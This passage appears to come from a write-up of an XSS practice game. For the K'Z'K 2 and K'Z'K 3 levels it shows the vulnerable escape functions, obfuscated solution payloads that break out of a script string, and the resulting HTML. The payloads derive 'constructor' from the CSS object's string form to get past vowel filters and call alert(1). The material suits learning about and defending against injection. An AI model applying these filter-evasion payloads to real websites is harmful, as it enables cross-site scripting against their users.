 - Output

```
<script>console.log(""+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"");</script>
```

## K'Z'K 2

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).


```
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels and escape sequences in honor of K'Z'K 
    // y is only sometimes a vowel, so it's only removed as a literal
    s = s.replace(/[aeiouy]|\\((x|u00)([46][159f]|[57]5)|1([04][15]|[15][17]|[26]5))/gi, '')
    // remove certain characters that can be used to get vowels
    s = s.replace(/[{}!=<>]/g, '');
    return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
"+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"
```

- Output

```
<script>console.log(""+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"");</script>
```

## K'Z'K 3

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).


```
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels in honor of K'Z'K the Destroyer
    s = s.replace(/[aeiouy]/gi, '');
    return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
"+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"
```

- Output

```
<script>console.log(""+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"");</script>
```
